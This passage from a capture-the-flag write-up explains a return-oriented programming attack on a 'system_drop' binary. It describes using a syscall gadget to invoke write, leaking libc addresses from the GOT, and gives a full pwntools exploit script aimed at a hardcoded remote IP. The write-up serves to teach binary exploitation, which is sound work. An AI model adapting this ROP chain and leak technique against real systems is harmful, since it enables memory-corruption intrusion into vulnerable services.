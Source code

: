 If you've ever done a static ROP challenge, particularly if you've tried to use an automatic ROP chain tool, you'll know that common practice for these is to use a syscall in order to call execve(). To do that, you have to set the rax register to 59 (in x86-64), and then set the rdi, rsi, and rdx registers as normal, preferrably with /bin/sh, 0, and 0. Initially, I tried to go straight to calling execve with the syscall, but after staring at ROPgadget results for any real way to control rax or one of its subregisters (i.e. eax, ax, or al), I gave up on that approach.

However, I realized that since the main gadget returns 1 at the end, this means that if I call syscall at the end, I will get a write syscall. Also, since we called read() with 0x100 as its third parameter, this should persist in rdx and not force us to use a ret2csu. As a result, we can leak the libc addresses from the GOT table. Now, the challenge did not actually come packaged with the libc version that it used, but there is a wonderful online tool at https://libc.blukat.me/ that will identify a libc version based on the known offsets (last three hexadecimal digits) of libc leaks. So, I put all of this together to create an appropriate script, shown here:

```
from pwn import *

#target = process('./system_drop')

#pid = gdb.attach(target, "\nb *main+45\n set disassembly-flavor intel\ncontinue")

target = remote ('138.68.147.93', 31865)

#Gadgets:

read_got_plt = p64(0x601020)
alarm_got_plt = p64(0x601018)
main = p64(0x00400541)

pop_rdi = p64(0x00000000004005d3) # : pop rdi ; ret
pop_rsi = p64(0x00000000004005d1) # : pop rsi ; pop r15 ; ret
syscall = p64(0x000000000040053b) # : syscall

#Payload creation:

#determined in an earlier run with the cyclic method
padding = b'a' * 40

payload = padding
payload += pop_rdi
payload += p64(1)
payload += pop_rsi
#My pop rsi also pops r15, which is typical, so I need padding to fill it.
payload += alarm_got_plt + p64(0)
payload += syscall
payload += main

target.sendline(payload)

result = target.recvuntil(b'\x00\x00\x00', timeout = 100)
print('We got result')
print(result)
alarm_unproc = result[:8]
alarm_libc = u64(alarm_unproc)
print(hex(alarm_libc))

target.interactive()
```
